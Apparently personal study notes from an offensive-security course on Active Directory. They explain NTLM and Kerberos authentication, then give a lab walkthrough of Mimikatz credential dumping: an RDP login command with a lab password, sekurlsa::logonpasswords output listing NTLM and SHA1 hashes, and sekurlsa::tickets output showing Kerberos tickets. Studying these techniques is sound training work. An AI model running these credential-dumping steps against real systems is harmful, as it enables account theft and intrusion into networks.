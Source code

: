 ### NTLM Authentication
- Client authenticates by IP instead of hostname to _app server_
- Used if user authenticates to unregistered AD hostname
![Figure 1: Diagram of NTLM authentication in Active Directory](https://static.offsec.com/offsec-courses/PEN-200/imgs/ad/efc3ae731d085f29a1673782d583e64d-ad_ntlm.png)

### Kerberos Authentication
- Client starts authentication with _KDC_
- _KDC_ service runs on each DC
![Figure 2: Diagram of Kerberos Authentication](https://static.offsec.com/offsec-courses/PEN-200/imgs/ad/b5e6b0ecb201daef973f507049049029-ad_kerbauth.png)

##### User logging in to computer
1. Encrypted AS-REQ = (timestamp + username + password) sent to DC
2. DC looks up password hash in **ntds.dit** and decrypts timestamp
3. If decryption success + timestamp is unique = authenticated
4. DC replies to client with AS-REP = (session key + TGT)

- TGT encrypted with secret key (NTLM hash of _krbtgt_ acct)
- TGT valid for 10 hrs (default)

##### User accessing domain resources
1. Encrypted TGS-REQ = (timestamp + user encrypted with session key + resource name + encrypted TGT)
2. KDC checks if resource exists, decrypts TGT, extracts session key to decrypt username and timestamp. Also checks:
	- TGT has valid timestamp 
	- Username from TGS-REQ matches username from TGT
	- Client IP matches TGT IP
3. TGS-REP sent back to client containing 
	- Name of service 
	- Session key for client and service
	- Service ticket with username and user groups & session key
4. Client sends AP-REQ = (username + timestamp encrypted with session key from service ticket + service ticket)
5. App server decrypts AP-REQ, verifies info, assigns permissions, and grants access to user

### Cached AD Credentials
#### Scenario Extracting Creds with Mimikatz
Connecting to CLIENT75 via RDP
```
kali@kali:~$ xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.50.75  
```
Start Admin PowerShell session

Start #mimikatz 
```
PS C:\Tools\> .\mimikatz.exe
```
Enable _SeDebugPrivilege_
```
mimikatz # privilege::debug
```
Dump hashes of all logged on users 
```hlt:1,14,15,41,42
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 4876838 (00000000:004a6a26)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 12:32:11 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105
        msv :
         [00000003] Primary
         * Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f
         * DPAPI    : 3a847021d5488a148c265e6d27a420e6
        tspkg :
        wdigest :
         * Username : jeff
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
Authentication Id : 0 ; 122474 (00000000:0001de6a)
Session           : Service from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 1:32:23 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103
        msv :
         [00000003] Primary
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
         * DPAPI    : fed8536adc54ad3d6d9076cbc6dd171d
        tspkg :
        wdigest :
         * Username : dave
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
```

#### Extracting LSASS Tickets with Mimikatz
##### Scenario 
Create and cache a service ticket by listing contents of SMB share
```hlt:1
PS C:\Users\jeff> dir \\web04.corp.com\backup


    Directory: \\web04.corp.com\backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/13/2022   2:52 AM              0 backup_schemata.txt
```

###### Show tickets stored in memory with sekurlsa::tickets
```hlt:1,18,19,37,15
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 656588 (00000000:000a04cc)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/13/2022 2:43:31 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:59:47 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             38dba17553c8a894c79042fe7265a00e36e7370b99505b8da326ff9b12aaf9c7
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
         [00000001]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Target Name  (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             c44762f3b4755f351269f6f98a35c06115a53692df268dead22bc9f06b6b0ce5
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             bf25fbd514710a98abaccdf026b5ad14730dd2a170bca9ded7db3fd3b853892a
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

- We have TGT and TGS 

#### Exporting certificates with non-exportable private key 
##### Mimikatz Module: crypto:capi 
This module patches CryptoAPI function

##### Mimikatz Module: crypto:cng
This module makes non-exportable keys, exportable